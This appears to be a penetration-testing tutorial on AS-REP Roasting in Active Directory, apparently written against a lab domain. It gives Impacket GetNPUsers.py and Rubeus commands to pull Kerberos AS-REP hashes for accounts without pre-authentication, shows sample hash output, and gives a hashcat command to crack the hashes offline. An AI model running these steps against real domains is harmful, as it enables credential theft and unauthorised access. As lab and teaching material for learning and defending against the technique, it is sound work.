 **AS-REP Roasting**

Is the technique that enables the attacker to retrieve password hashes for AD users whose account options have been set to "**Do not require Kerberos pre-authentication"**. This option relies on the old Kerberos authentication protocol, which allows authentication without a password. Once we obtain the hashes, we can try to crack it offline, and finally, if it is crackable, we got a password!

![81bf1dad6425f8f06b0026f4e748f193](https://github.com/user-attachments/assets/2ccdf90a-420f-45dd-8c55-8f1142276804)


<br>
Before performming this attack we should edit our /etc/hosts file.
 
<br>

**First method**


We should do some recon to obtain the AD users and collect them in a file ```users.txt```:
```
Administrator
admin
thm
test
sshd
victim
CREDS-HARVESTIN$
```
 ```
GetNPUsers.py -dc-ip <DomainController_IP> <domain name>/<user> -usersfile <path_to_users_file>
#OR
GetNPUsers.py <domain name>/ -no-pass -usersfile <path_to_users_file>  #if we have no creds
```
**ex**
```
GetNPUsers.py -dc-ip 10.10.73.127 thm.red/thm -usersfile users.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User sshd doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$victim@THM.RED:269af6bae34fa24f66669f64454eb290$95c86c6aad2085a6f0263c92587a1bee24d04e13e74e5c510d7b17287ce772553f28f5fe1306cda7ba06db1c0fede4c09c8e3e8fec0bebfd85c47ded661f54c686216c296ae99d6b389eaa7bbb1b12b85347fee45574d39a4ca2e5f157bb732472d4614787e4204ac82adcee530d4a6a9ab2da7775d06922f8650468826c329bbf4e86c9f6be04d5ff54790a098a09bbc2500659c834c96e4a90ba6e042855eaa1672645f8620abea4f7fb43322624c6950b990fc247f08be8a098adf9920e22c5f7310fe7b710def9b071472c2440629bedc226dc6fadff2e20727bc467e543f6c8
[-] User CREDS-HARVESTIN$ doesn't have UF_DONT_REQUIRE_PREAUTH set
```


The ```GetNPUsers.py``` is used to request Kerberos **TGTs** for user accounts that have the **"Do not require Kerberos preauthentication"**

<br>

**Second method**

```
Rubeus.exe asreproast /nowrap
```
the output will look like this:
```
[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::b5c8:9b6f:25dc:5bf6%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:AF01B8AF2BA0C81C0D438ACB15A2B476$F766A68EF45E9C5924B096B5B4B0916366763EA31A6301E8DD511ACA336D7E162F29D6703BE0489410EBAB6E2A94EC416F1CA0DBA2B71A42C35BB0D1113E07B81D5D8662BF8CE1BAD89B9B408AFFDD531F0C401101937F1C5E2526E44194BF8CDC1ACB18623D52B19E30AA1D14C15E97FB6B329B92726AC394E0373C090B4C32C1D1CEBA3014BF5B0126F3C014BD1CDED856EC99C26F5566C66488C355BA49E572D445C88C583CCBF7686514297ABCB546FA2C18D15CAC4459235D798A3950C88C3369ABF2991AAF5EAB9D2C03792108F328EC65358427D86E5C595E7F5CB61828EABA0A99FA33F0241C51607BB14F1F415EA655
```
**Cracking the AS-REP Hash:**

To crack the AS-REP hash, you can use Hashcat with the following command:
```
hashcat -m 18200 hash.txt /path/to/rockyou.txt
```





























